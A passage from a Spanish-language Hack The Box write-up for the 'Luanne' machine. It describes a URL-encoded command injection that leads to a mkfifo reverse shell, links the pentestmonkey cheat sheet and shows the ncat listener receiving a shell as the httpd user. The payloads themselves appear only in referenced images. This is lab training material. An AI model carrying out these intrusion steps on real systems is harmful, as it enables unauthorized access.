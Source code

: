 En principio, la inyección parece fallar, pero vamos a volver a enviarlo esta vez haciendo `urlencode` y esta vez si vemos la ejecución correctamente.


![](/assets/images/HTB/htb-writeup-Luanne/lua10.PNG)


Lo siguiente que haremos sera entablarnos una `revershell` a nuestra maquina usando `mkfifo` para que si tenemos una versión distinta de `ncat` evitar inconenientes, para ello podemos usar la pagina web de confianza de `pentestmonkey`.

* [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


Enviamos la petición, modificando nuestra ip, puerto en escucha y sin olvidar urlencodear la petición.

![](/assets/images/HTB/htb-writeup-Luanne/lua11.PNG)


Y recibimos la conexión en nuestra maquina como el usuario `httpd`.


```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.218.
Ncat: Connection from 10.10.10.218:65479.
sh: can't access tty; job control turned off
$ whoami
_httpd
$ hostname
luanne.htb
$ uname -a  
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```
